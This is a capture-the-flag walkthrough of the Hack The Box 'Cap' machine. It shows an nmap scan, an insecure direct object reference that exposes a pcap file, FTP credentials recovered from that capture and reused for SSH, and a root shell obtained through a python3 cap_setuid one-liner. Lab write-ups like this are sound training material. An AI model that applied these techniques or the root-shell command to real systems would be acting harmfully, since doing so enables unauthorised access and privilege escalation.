






<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.245 cap.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
... [snip] ...
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* **Port 80** Running gunicorn server.
  * **[gunicorn](https://gunicorn.org/):** The Gunicorn "Green Unicorn" is a Python Web Server Gateway Interface HTTP server. It is a pre-fork worker model, ported from Ruby's Unicorn project.

# Foothold

## Parameter Manipulation

Going through the wep app found "Parameter Manipulation" in `/data/` which allows to access resources that should not be accessible.



changing value to `0` give access stored pcap file on the server


download the pcap file
```bash
❯ wget http://cap.htb/download/0
--2021-06-06 18:56:34--  http://cap.htb/download/0
Resolving cap.htb (cap.htb)... 10.129.119.229
Connecting to cap.htb (cap.htb)|10.129.119.229|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9935 (9.7K) [application/vnd.tcpdump.pcap]
Saving to: ‘0’

0               100%[=======>]   9.70K  --.-KB/s    in 0.002s  

2021-06-06 18:56:35 (4.39 MB/s) - ‘0’ saved [9935/9935]
```

## PCAP file analysis

open it in wireshark and view `tcp.stream eq 3` which contains ftp traffic packet.



and get ftp creds: `nathan:Buck3tH4TF0RM3!`

ftp have read access to file system but nothing interesting here.



but same creds work for ssh login because user "nathan" is in the box.



# Privesc

## python with `setuid` capability

Found `cap_setuid` capability in python3



[capabilities man page](https://man7.org/linux/man-pages/man7/capabilities.7.html): Linux capabilities are special attributes in the Linux kernel that grant processes and binary executables specific privileges that are normally reserved for processes whose effective user ID is 0

**CAP_SETUID** Allow changing of the UID (set UID of root in you process). That means `setuid()` sets the effective user ID of the calling process.

and python have `setuid()` capability, that means python command allow user to set effective userID for its calling process.



gtfobins also have exploit for [python capabilities](https://gtfobins.github.io/gtfobins/python/#capabilities)

**exploit:** `python -c 'import os; os.setuid(0); os.system("/bin/sh")'`
```bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```